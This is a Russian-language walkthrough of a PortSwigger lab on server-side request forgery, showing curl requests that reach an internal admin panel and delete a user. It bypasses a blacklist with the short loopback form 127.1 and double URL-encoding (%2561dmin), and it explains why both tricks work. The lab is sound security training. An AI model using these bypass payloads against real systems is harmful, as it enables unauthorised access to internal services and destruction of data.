

# Lab: SSRF with blacklist-based input filter

## Description

Level: `PRACTITIONER`

This lab has a stock check feature which fetches data from an internal system.

> To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

> The developer has deployed two weak `anti-SSRF` defenses that you will need to bypass.

# Solution

По классике жанра пробуем простейший `SSRF` запрос:

```bash
curl -s -X POST "https://0a4700670322c9728215242900a50038.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://localhost/admin"
"External stock check blocked for security reasons"%
```

Чтож, видимо у нас блокировка `localhost`, 
заменим его на `127.0.0.1`:

```bash
curl -s -X POST "https://0a4700670322c9728215242900a50038.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://127.0.0.1/admin"
"External stock check blocked for security reasons"%
```

Видимо, все чуть сложнее, а что если применить
какую-нибудь кодировку к нашему request?

```bash
curl -s -X POST "https://0a4700670322c9728215242900a50038.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://127.1/%2561dmin"
```

И ответ:

```html
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>SSRF with blacklist-based input filter</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SSRF with blacklist-based input filter</h2>
                            <a class=link-back href='https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Остается лишь удалить `carlos`:
```bash
curl -s -X POST "https://0a4700670322c9728215242900a50038.web-security-academy.net/product/stock" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "stockApi=http://127.1/%2561dmin/delete?username=carlos"
```



# Почему так?

Тут 2 трюка:
- `127.1`
  Здесь нули адреса опускаются, при этом
  это все еще `127.0.0.1`, но такой не
  блокируется фильтром
- `%2561`
  Это двойное кодирование. Дело в том, 
  что при раскодировании `%61` мы бы получили
  `a` а затем слово `admin`, которое есть в
  фильтрах `WAF`. Потому используем двойное
  `URL`-кодирование

> Двойное раскодирование пройдет на ура и вот
> почему. `WAF` видит `%2561dmin`, применяет
> `URL-decoding` и получает: `%25`:`%`, значит
> получит `%61dmin`, а блокирует именно `admin`.
> проблем нет и передает полученную строку
> запрос. А там уже бекенд сервер сам применяет
> `URL-decoding`: `%61dmin` -> `admin`

> А вот тройное и более декодирование не должно
> сработать, ибо обычно дальше 2х шагов
> раскодировка не идет, стало быть будет
> каша вместо валидного endpoint
